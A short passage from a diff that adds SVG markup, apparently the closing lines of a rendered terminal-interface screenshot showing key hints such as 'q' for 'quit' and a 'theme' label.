+   <text x="658.8" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
+   <text x="717.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
+   <text x="734.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
